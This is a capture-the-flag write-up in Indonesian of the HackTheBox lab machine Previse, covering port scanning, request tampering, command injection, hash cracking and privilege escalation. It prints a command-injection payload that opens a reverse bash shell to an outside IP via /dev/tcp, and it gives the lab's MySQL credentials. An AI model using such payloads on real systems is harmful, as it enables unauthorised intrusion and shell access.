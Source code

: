 # Hackthebox-Previse-WriteUp
Selamat satang di repository saya, di sini saya akan menuliskan writeup pada machine **Previse**

<p alingn=center><a href="https://app.hackthebox.com/machines/373" target="_blank"><img src="https://miro.medium.com/max/600/0*6X4F86uQ83anl-ZR.png" width="400"></a></p>

Sebelum saya memulai laporan saya saya akan pemperkenalkan kepada anda apa itu penetration testing. Penetration Testing atau disebut juga pentest adalah pengujian keamanan informasi dimana seorang pentester meniru serangan yang biasa sering terjadi untuk mengidentifikasi metode peretasan fitur keamanan aplikasi, sistem, atau jaringan. Pengujian ini dilakukan oleh pentester menggunakan serangan yang nyata, sistem yang nyata, dan data yang nyata menggunakan alat dan teknik yang sering dipakai oleh seorang hacker. Penetration Testing biasanya dilakukan bersamaan dengan Vulnerability Assessment (VA). Vulnerability Assessment adalah sebuah proses untuk mengidentifikasi risiko dan celah kerentanan pada aplikasi, sistem, ataupun jaringan. Sebagian besar pentest mencari kombinasi kerentanan pada satu atau lebih sistem untuk mendapatkan akses lebih dalam pada sistem yang menjadi target dibandingkan dengan hanya mengetahui satu macam kerentanan.

### Scanning Port
---
Di sini saya menggunakan **nmap** untuk scan port yang terbuka untuk public 
![nmap](assets/nmap.png)
setelah melakukan scan port diketahui bahwa terdapat 2 port yang terbuka untuk public, yaitu port 80 dan 22. Port 80 umumnya berfungsi untuk web site dengan http:// dan port 22 berfungsi untuk ssh server.

Setelah saya buka ternyata web tersebut berisi login page
![login page](assets/login.png)

### Bruteforce directory
---
Setelah itu saya melakukan brute force attack pada web menggunakan tool Bernama **dirb** untuk mengetahui apakah terdapat url lain yang dapat dibuka secara langsung tanpa autentikasi
![bruteforce](assets/bruteforce.png)
Dan saya tidak bisa mendapat apa apa kerena langsung ke direct ke login page, namun saya dapat mengetahui direktori yang ada setelah melewati login page.

### SQL Injection
---
Lalu saya mencoba lagi menggunakan sql injection sederhana (sapa tau bisa yakan :v)

![sql injection](assets/sql.png)

**BOOOM!** ndak bisa bro, cari jalan lain :')

### Burp Suite
---
Saya menghidupkan proxy server dan menggunakan burpsuite dan mengaktifkan mode instercept
![burp](assets/burp1.png)
Lalu saya kirim ke repeater dan mengganti request seperti yang ada di gambar dan akun telah terbuat XD
![burp](assets/burp2.png)

### Eksekusi
---
Setelah melewati gerbang pertama (login page) saya menemukan sesuatu yang menarik 

![eksekusi](assets/exec1.png)

Saya mendapat kedua file tersebut dari website dan dari sini maka diketahui m4lwhere adalah pemilik.
Setelah itu saya melihat isi dari folder sitebackup dan menemukan seperti gambar dibawah

![eksekusi](assets/exec2.png)

Di sana saya menemukan exec() function yang mungkin bisa digguakan untuk rce dan mysql server
```
User root
Password mySQL_p@ssw0rd!:)
Database previse
```
>exec() dan eval() merupakan ide yang buruk dalam keamanan

Lalu saya mencoba mengakses logs.php lalu di intercept menggunakan burpsuite dan mengirimkan ke repeater

![eksekusi](assets/exec3.png)

Lalu saya melakukan listen pada port 87 menngunakan payload ini untuk melakukan reverse shell

```
delim=comma%26/bin/bash+-c+'bash+-i+>+/dev/tcp/10.10.14.176/87+0>%261'
```

![eksekusi](assets/exec4.png)

Lalu saya menggunakan payload berikut agar ~~banyak uang~~ (ada symbol $) dan masuk ke mysql server menggunakan username dan password yang tadi 
```python
python -c ‘import pty;pty.spawn(“/bin/bash”)’
```

![eksekusi](assets/exec5.png)

Mantap jiwaaa saya bisa masuk ke mysql server, lalu saya akan mencuri password user m4lwhere

```sql
Select * from accounts;
```
![eksekusi](assets/exec6.png)

Setelah saya mendapat hash passwordnya saya langsung mendecrypt menggunakan ~~john lennon~~ (eh maksud saya john the ripper)

![eksekusi](assets/exec7.png)

Dayummm! Saya mendapatkan passwordnya, saya menghabiskan waktu sangat lama untuk mendapatkan passwordnya :’)

Setelah mendapatkan password karena port 22 terbuka saya mencoba untuk connect ke SSH

![eksekusi](assets/exec8.png)

Di sini saya mendapatkan flag pertama (**user.txt**), Yeayyyy

![eksekusi](assets/exec9.png)

### Privilege Escalation
---
Setelah itu saya menggunakan sudo -l untuk mengetahui pirintah sudo digunakan oleh siapa dan melihat isi file tersebut

![sudo](assets/pe.png)

Setelah itu saya mencoba mereverse shell root ke kali linux saya

![sudo](assets/pe2.png)

Dan saya pun mendapat flag root.txt

![sudo](assets/pe3.png)

# Terimaksih sudah membaca :)
semangat belajarnya bro :')

![gif](https://c.tenor.com/y2JXkY1pXkwAAAAC/cat-computer.gif)